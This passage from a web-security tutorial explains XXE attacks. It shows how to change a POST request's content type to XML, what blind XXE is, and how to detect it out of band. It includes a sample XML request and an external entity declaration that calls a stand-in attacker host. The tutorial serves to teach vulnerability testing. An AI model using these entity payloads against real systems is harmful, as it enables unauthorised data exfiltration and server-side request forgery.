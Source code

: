 ### XXE attacks via modified content type

Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7 

foo=bar
```

Then you might be able submit the following request, with the same result:

```http
POST /action HTTP/1.0 
Content-Type: text/xml 
Content-Length: 52 

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>`
```

If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.

## Blind XXE

Blind XXE vulnerabilities arise where the application is vulnerable to [XXE injection](https://portswigger.net/web-security/xxe) but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

-   You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
-   You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

### Detecting blind XXE using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

You would then make use of the defined entity in a data value within the XML.
